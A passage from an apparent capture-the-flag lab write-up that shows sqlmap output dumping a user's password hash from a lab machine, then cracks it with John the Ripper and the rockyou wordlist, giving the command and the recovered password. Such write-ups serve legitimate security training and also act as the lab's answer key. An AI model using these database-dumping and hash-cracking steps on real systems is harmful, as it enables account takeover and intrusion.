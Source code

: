     | pwd                                                              | username |
    +------------------------------------------------------------------+----------+
    | ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
    +------------------------------------------------------------------+----------+

    [22:09:59] [INFO] table 'db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.156.19/dump/db/users.csv'                                          
    [22:09:59] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.156.19'                                                        

    [*] ending @ 22:09:59 /2020-08-19/

The hashed password is: `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

### Q2

*What was the username associated with the hashed password?*

The username is `agent47`

### Q3

*What was the other table name?*

The other table name is `post`

## [Task 4] Cracking a password with JohnTheRipper

*John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines. We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.*

### Q1

*Once you have JohnTheRipper installed you can run it against your hash using the following arguments:*

    hash.txt - contains a list of your hashes (in your case its just 1 hash)
    --wordlist - is the wordlist you're using to find the dehashed value
    --format - is the hashing algorithm used. In our case its hashed using SHA256.

### Q2

*What is the de-hashed password?*

videogamer124

We can use JohnTheRipper like so:

    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

